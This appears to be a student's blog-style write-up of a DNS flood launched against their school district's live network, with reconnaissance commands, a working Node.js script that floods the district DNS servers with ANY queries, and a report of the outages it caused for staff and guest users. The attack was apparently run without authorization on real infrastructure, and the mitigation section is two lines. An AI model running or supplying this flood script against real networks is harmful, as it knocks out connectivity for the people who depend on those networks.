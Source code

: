 ```yaml
---
title: DNS Flood Writeup
date: 2025-04-22
---
```

*some experiment i tried in my school*

# Introduction

A DNS flood is a attack that involves sending multiple requests to a DNS server, preventing legitimate clients from querying the server and indirectly, accessing the internet.

# Structure

BCPS uses a Palo Alto filter on the network. But, when you check the DHCP assigned DNS servers, you get something drastically different.

```bash
scutil --dns | grep 'nameserver\[[0-9]*\]'
```

```
  nameserver[0] : 10.149.0.29
  nameserver[1] : 10.9.0.76
```

These are 2 local IP’s, implying a on-prem solution.

Another thing to note is that the network search domain is `bcps.org`, which is the district’s official website. **This is important.**

```bash
scutil --dns | grep 'search domain'
```

```
search domain[0] : bcps.org
```

This domain resolves to a CF public IP using a public DNS resolver such as 8.8.8.8:

```
Server:		8.8.8.8
Address:	8.8.8.8#53

Non-authoritative answer:
Name:	bcps.org
Address: 162.159.135.49
Name:	bcps.org
Address: 162.159.136.49
```

Running it on a BCPS DNS server on the network yields a couple local IPs:

![image.png](00-img1.png)

These are all local IPs. Running nmap on these IPs yield a distinct port fingerprint:

![image.png](00-img2.png)

These are probably backup DNS servers, or are used across other parts of the district.

# Method

As the DNS server is a local IP, it can be deduced that it is a on-premises server. [`bcps.org`](http://bcps.org) is possibly fetched from this server instead of being forwarded to PA upstream.

The attack was an amplified `ALL` query for [`bcps.org`](http://bcps.org) to the 2 DNS servers.

## Setup

A script was ran 8-9 times concurrently on an Apple Macbook Air (M2) on MacOS 15.4. Running it upwards of 15 times causes the device to get booted off the network, but it could also be the network buckling under stress. Further research is required for this.

```jsx
import dns from "node:dns/promises"
import net from "node:net";

const dnsServers = dns.getServers();
// avoid preference
for (const server of dnsServers) {
  for (let i = 0; i < 1_000; i++) {
    setInterval(async () => {
	    // used to prevent socket exhaustion
      const socket = new net.Socket();
      socket.setTimeout(1000);
      socket.on('error', () => socket.destroy());
      socket.on('timeout', () => socket.destroy());

      socket.connect(53, server, async () => {
        socket.destroy();
        dns.setServers([server]);
        await dns.resolve("bcps.org", "ANY").catch(console.error);
        console.log("attempt ", i);
      });
    });
  }
}
```

# Effects

Nothing was felt immediately. The dns queries were going normal with no logged errors, but soon after, the queries started to slow down and hang, and connections were being refused and timeouted:

![image.png](00-img3.png)

A separate BCPS issued Chromebook was used to test DNS resolving, with the cache cleared. Websites were loading slowly, and then suddenly loaded. Wi-Fi was also suddenly dropping off on some devices and they had issues connecting. The attack was later stopped. Soon after, Wi-Fi started dropping out and websites were loading slow. Google Speedtest logged 50/up and 30/down, which is a 50% reduction from the normal 100/100 speed.

The internet started to recover ~5min after the slow network notification. To make sure this was due to the attack, it was started again, and the connection started dropping off. Devices were not receiving IPs, meaning that the IP might have a connection to the DHCP server or router.

Websites were not resolving and many devices had “No internet.”

When the attack was paused later on, staff devices started regaining internet connection in the span of 5min.

At one point, during a later run of ~15 instances, the access point completely disconnected and made it’s own network, and the test device switched to a 169.xx IP.

![SCR-20250422-ihbv.png](00-img4.png)

![Screenshot 2025-04-22 at 09.46.53.jpg](00-img5.jpg)

Users of BCPS-Guest also reported disruptions.

# Possible solutions

The load on the DNS server can be reduced by implementing a simple rate limit per client.

Core network components should also be isolated to prevent a total failure, and reduce load.
